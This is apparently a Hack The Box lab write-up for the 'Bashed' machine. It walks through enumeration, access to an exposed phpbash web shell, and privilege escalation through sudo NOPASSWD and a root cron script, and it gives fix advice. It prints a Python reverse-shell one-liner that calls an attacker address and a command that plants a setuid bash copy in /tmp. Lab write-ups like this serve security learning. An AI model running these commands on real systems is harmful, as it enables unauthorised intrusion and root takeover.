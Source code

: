 # 1.0 - HACK THE BOX: BASHED

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/026729e2-83a0-443d-a421-c2c83d2bd744)

**Vulnerability Explanation**: The web server has unintentionally exposed a php script in the /dev/ web directory that allows an unauthenticated user to remotely execute bash commands. Furthermore, the www-data user can run commands as the 'scriptmanager' user without needing a password which created a path for privilege escalation to that user and then to the 'root' user via a misconfigured cron job. 

**Vulnerability Fix**: Restrict access to the /dev/ web directory and remove the phpbash.php script. Additionally, require a password when performing sudo commands as the www-data user. 

**Severity**: Critical.

**Steps to reproduce the attack**: Enumeration was undertaken using NMAP which discovered the web server running on port 80. Web directories were then scanned using dirbuster which exposed the /dev/ directory and the .php scripts; navigating to this on a browser results in a web shell. Privilege escalation was then performed by taking advantage of the NOPASSWD value set for sudo commands on the www-data user by moving to the scriptmanager user shell. Escalation to the root user was then performed by editing a script to copy the /bin/bash binary to a new location with the setuid bit set.

## 2.0 - ENUMERATION
| **IP ADDRESS** | **OPEN PORTS** |
|----------|--------------------|
| 10.10.10.68 | TCP: 80 |

#### **2.1 - NMAP**

A port scan was undertaken using NMAP, in which port 80 was discovered: 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/7fce3128-5737-4b70-814e-04687c2fcc44)

#### **2.2 - nikto**

A vulnerability scan was performed using nikto which flagged a number of interesting directories including other issues which were not explored during this test. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d5e3d5a4-9258-4e91-89f0-da1272b204e1)

#### **2.3 - dirbuster** 

With the nikto scan in mind, a dirbuster scan was performed to brute-force web directories which exposed the phpbash.php web shell script. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/b6691ce0-57ad-46d1-8118-36b82e586362)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/2401dd5f-e8b1-40fc-a17d-83af0ef68d10)


## 3.0 - EXPLOITATION

#### **3.1 - Accessing the Web Shell**

Exploitation was simple, by navigating to the /dev/phpbash.php web directory we could get web shell as the www-data user. From here we have full access to the web server. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d0abe153-d486-49d6-87a5-b2e604702ba5)

## 4.0 - PRIVILEGE ESCALATION 

#### **4.1 - sudo -l**

As the www-data user when performing the sudo -l command we can see that commands can be run as the 'scriptmanager' user without the need for a password. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/9564681b-0d11-40ce-8122-5749605bd2a1)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/34411839-1474-4a87-ab6e-11a972f1b889)

#### **4.2 - reverse shell**

Because we can run commands as scriptmanager a reverse shell was created using python which allowed our first privilege escalation to the scriptmanager user itself. 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.0",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Catching the reverse shell and checking the user id we can see it was successful:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/6ee34a27-8da2-4132-ba2b-9d16912b551c)

#### 4.3 - escalation to root**

As the scriptmanager user we navigate to the root directory and see a directory called 'scripts'. Inside this directory is a simple python script called test.py and a text file. The python script writes a message to the test.txt file which is owned by root. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/7104dc83-e23a-4851-b26f-a852d52f25fb)

The test.py script was edited to import the python 'os' module and the following line of code was added:

```python
os.system('cp /bin/bash /tmp/willthiswork; chmod +s /tmp/willthiswork')
```

This copies the /bin/bash binary to the /tmp/willthiswork location and sets the setuid bit on and when this new binary is executed with the -p flag it will run with the permission of the owner (root) and would not reset the effective user id, as displayed below:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/4bf461fc-1beb-4905-a2a1-953b9c025965)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/8e7724be-5630-46f4-a384-cea50036228c)

## 5.0 - POST-EXPLOITATION 

Lessons learned: 
